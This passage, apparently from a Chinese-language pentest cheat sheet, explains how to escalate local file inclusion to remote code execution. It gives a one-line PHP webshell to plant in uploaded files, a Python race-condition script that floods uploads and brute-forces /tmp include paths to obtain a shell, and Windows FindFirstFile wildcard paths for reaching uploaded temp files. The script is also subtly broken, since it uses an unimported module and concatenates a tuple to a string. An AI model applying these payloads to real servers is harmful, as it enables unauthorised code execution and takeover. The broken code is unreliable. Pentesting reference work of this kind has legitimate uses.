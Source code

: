 - [ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/tree/main)

## 通过文件上传实现LFI到RCE

如果可以上传文件，只需在其中注入Webshell（例如：`<?php system($_GET['c']); ?>`）。

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

为了保持文件可读，最好将代码注入到图片/文档/PDF的元数据中。

## 通过文件上传竞争条件实现LFI到RCE

1. 上传文件并触发自包含。
2. 重复上传多次以：
   - 增加赢得竞争条件的几率
   - 增加猜测的几率
3. 暴力破解包含`/tmp/[0-9a-zA-Z]{6}`
4. 获取shell

```python
import itertools
import requests
import sys

print('[+] 尝试赢得竞争条件')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] 暴力破解包含')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] 成功获取shell: ' + url)
        sys.exit(0)

print('[x] 出现错误，请重试')
```

## 通过FindFirstFile实现LFI到RCE

:warning: 仅适用于Windows

`FindFirstFile`允许在Windows上的LFI路径中使用通配符（`<<`作为`*`，`>`作为`?`）。通配符本质上是搜索模式，可以包含通配符，允许用户或开发人员根据部分名称或类型搜索文件或目录。在FindFirstFile的上下文中，通配符用于过滤和匹配文件或目录的名称。

- `*`/`<<` : 表示任意字符序列
- `?`/`>` : 表示任意单个字符

上传文件后，它应该存储在临时文件夹`C:\Windows\Temp\`中，并生成类似`php[A-F0-9]{4}.tmp`的名称。然后，可以暴力破解65536个可能的文件名，或使用通配符，如：`http://site/vuln.php?inc=c:\windows\temp\php<<`

